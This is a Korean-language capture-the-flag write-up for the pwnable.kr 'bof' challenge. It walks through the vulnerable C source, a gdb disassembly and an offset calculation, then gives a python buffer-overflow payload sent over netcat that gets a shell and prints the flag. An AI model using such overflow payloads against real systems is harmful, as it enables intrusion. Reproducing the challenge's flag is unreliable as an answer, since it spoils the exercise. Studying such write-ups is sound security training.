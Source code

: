 # bof - 5 pt

```text
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

## bof.c 소스코드를 보자

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

## 일단 netcat로 연결해 볼까요

```text
cxbt@CXBT:dsm2016$ nc pwnable.kr 9000
sdfasdf
overflow me :
Nah..
cxbt@CXBT:dsm2016$
```

아하... 실행파일을 준 이유가 이거였군요?! 아 이런

## 주어진 bof 실행파일을 디스어셈블링 해보자

```c
ch4sis@ubuntu:pwnable.kr$ gdb -q bof
Reading symbols from bof...(no debugging symbols found)...done.
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave
   0x00000689 <+93>:    ret
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x0000068a <+0>:     push   ebp
   0x0000068b <+1>:     mov    ebp,esp
   0x0000068d <+3>:     and    esp,0xfffffff0
   0x00000690 <+6>:     sub    esp,0x10
   0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:    call   0x62c <func>
   0x0000069f <+21>:    mov    eax,0x0
   0x000006a4 <+26>:    leave
   0x000006a5 <+27>:    ret
```

주목할 점은 `*main+9`에서 esp 주소영역에 `0xdeadbeef` 값을 집어넣는다는 점, 그리고 `*func+74`에서 그 값을 `ebp+8`로 접근한다는 점이다. 프로그램이 `gets` 함수로 입력값을 제한된 크기 없이 받기 때문에 `0xdeadbeef`가 있는 영역을 덮어 씌우면 원하는 값을 `func` 함수의 인자로 조작할 수 있다. 그럼 저 위치를 계산해 보자.

```asm
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
```

현재 우리가 입력하는 곳은 `[ebp-0x2c]`이고 우리가 덮어 씌워야 할곳은 `[ebp+8]`이다. `0x2c + 0x08 = 0x34 (52)`만큼 쓸모없는 데이터로 덮어씌운 후 `0xcafebabe`를 쓰면 된당

## 아무튼 그래서

```c
ch4sis@ubuntu:Desktop$ python -c "print 'A'*44+'B'*4+'C'*4+'\xbe\xba\xfe\xca'" > bof
ch4sis@ubuntu:Desktop$ (cat bof; cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
exit
*** stack smashing detected ***: /home/bof/bof terminated
overflow me :

ch4sis@ubuntu:Desktop$
```

이렇게 하면 된다ㅋ